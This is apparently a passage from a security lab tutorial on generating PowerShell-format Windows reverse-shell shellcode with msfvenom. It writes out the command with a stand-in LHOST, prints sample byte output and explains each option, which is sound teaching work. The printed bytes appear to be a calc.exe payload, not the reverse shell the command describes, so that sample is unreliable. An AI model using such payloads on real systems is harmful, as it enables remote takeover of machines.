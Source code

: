 ## Generating Shellcode

*But Mayor Malware's minions, sneaky and sly,*

*Found his script and gave it a try.*

*They tampered the code, changed port and IP,*

*Twisted his work with a sinister glee.*

* \n *

Let's learn how to generate a shellcode to see what it looks like. To do this, we will use a tool called `msfvenom` to get a reverse shell. \n

In the AttackBox, open the terminal and enter the command `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell` that will generate the shellcode. The output will look like the following.  You will require to replace the `ATTACKBOX_IP` with the IP of the AttackBox.

AttackBox Terminal

```javascript
root@attackbox:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of powershell file: 2259 bytes
[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,
0x30,0x8b,0x52,0xc,0x8b,0x52,0x14,0x8b,0x72,0x28,0xf,0xb7,0x4a,0x26,0x31,0xff,0xac,
0x3c,0x61,0x7c,0x2,0x2c,0x20,0xc1,0xcf,0xd,0x1,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,
0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x1,0xd1,0x51,0x8b,0x59,0x20,
0x1,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x1,0xd6,0x31,0xff,0xac,
0xc1,0xcf,0xd,0x1,0xc7,0x38,0xe0,0x75,0xf6,0x3,0x7d,0xf8,0x3b,0x7d,0x24,0x75,
0xe4,0x58,0x8b,0x58,0x24,0x1,0xd3,0x66,0x8b,0xc,0x4b,0x8b,0x58,0x1c,0x1,0xd3,
0x8b,0x4,0x8b,0x1,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,
0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x6a,0x1,0x8d,0x85,0xb2,0x0,0x0,
0x0,0x50,0x68,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x68,
0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x3c,0x6,0x7c,0xa,0x80,0xfb,0xe0,0x75,0x5,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x0,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x0
```

The above command generates a piece of shellcode using `msfvenom`. Here's what each part means:

* `-p windows/x64/shell_reverse_tcp`: The `-p` flag tells `msfvenom` what type of payload to create. `windows/x64/shell_reverse_tcp` specifies that we want a reverse shell for a Windows machine.
* `LHOST=ATTACKBOX_IP`: This is the IP address of the AttackBox. It tells the reverse shell where to connect back to.
* `LPORT=1111`: This is the port number on your machine that will listen for the reverse shell connection. When the target connects back to you, it will use this port (`1111` in this example). You can choose any available port, but it needs to match with what your listener is set to.
* `-f powershell`: This specifies the format for the output. In this case, we want the payload to be in PowerShell format so it can be executed as a script on a Windows machine. \n

**Where Is the Actual Shellcode**
